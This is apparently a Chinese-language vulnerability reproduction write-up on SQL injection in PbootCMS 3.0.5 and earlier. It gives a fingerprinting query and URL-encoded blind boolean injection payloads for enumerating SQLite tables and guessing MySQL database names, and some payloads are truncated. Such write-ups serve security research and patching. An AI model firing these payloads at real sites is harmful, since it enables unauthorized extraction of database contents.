






PbootCMS domain SQL注入漏洞¶
漏洞描述¶
PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息
漏洞影响¶
PbootCMS <= 3.0.5
网络测绘¶
app="PBOOTCMS"
漏洞复现¶
本地搭建最新版本,访问首页
我们需要访问一个存在的页面
url中13后加个单引号 '，若为执行sql报错相关,则漏洞存在

若显示下图，则漏洞无法利用

程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--

通过此payload进行盲注Fuzz数据库中表单总数是否小于40
查询为真返回正常,假则报错

由此我们可以准确推断出表单总数
计算sqlite数据库中第一个表名长度,我们可以使用如下payload:
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a

猜解第一个表名称,我们可以使用如下payload:
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimi

这样可以得到数据库第一个表的第一位数值为字符串"a"
通过substr()函数,我们可以很轻松的得到表名称.
同理可获取其他数据
在Mysql下的利用方式¶
猜解当前数据库名称 可以使用如下payload进行Fuzz:
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
查询为真时页面将返回正常.
使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同